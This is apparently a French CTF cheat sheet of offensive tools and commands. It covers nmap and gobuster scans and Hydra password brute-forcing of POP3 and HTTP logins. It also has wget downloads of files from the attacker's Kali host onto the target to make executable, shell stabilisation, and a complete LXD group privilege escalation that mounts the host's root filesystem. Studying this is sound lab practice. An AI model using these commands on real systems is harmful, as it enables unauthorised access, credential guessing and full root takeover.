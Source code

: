 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

* Hydra pour http-get

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $IP -s <port> http-get
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## Consolidation d'un Shell

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo; fg
export TERM=xterm  
(stty cols 132 rows 34)
```

## Escalade de privilèges via LXD

Basé sur cet article: [LXC/LXD (Linux Container/Daemon) Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/)

Vérifiez que l'utilisateur sur la machine cible fait partie du groupe lxd

```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

### Sur la machine Kali

Préparez un conteneur linux et lancer un serveur http

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

### Sur la machine cible

Téléchargez le fichier \<alpine tar.gz> et importez-le comme image dans LXC

```
cd /dev/shm
wget http://<local-ip>:8000/<alpine tar.gz>
lxc image import ./<alpine tar.gz> --alias myimage
lxc image list
```

Créez un nouveau conteneur '**mycontainer**' basé sur l'image '**myimage**' qui vient d'être importée.

```
lxc init myimage mycontainer -c security.privileged=true
```

En cas de message **“**No storage pool found. Please create a new storage pool**.”** initialisez LXD d'abord et relancez la commande.

```
lxd init
```

Montez (mount) le répertoire principal / dans le répertoire /mnt/root du conteneur 'mycontainer' que vous venez de créer

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Démarrez votre conteneur

```
lxc start mycontainer
```

Lancez un Shell (note: l'image Alpine ne supporte qu'un shell sh)

```
lxc exec mycontainer /bin/sh
```

Vérifiez que vous êtes bien root

```
whoami
```

Rendez-vous dans le répertoire principal de la machine cible monté en /mnt/root et accédez en tant que root à toutes les données de la machine

```
cd /mnt/root

```
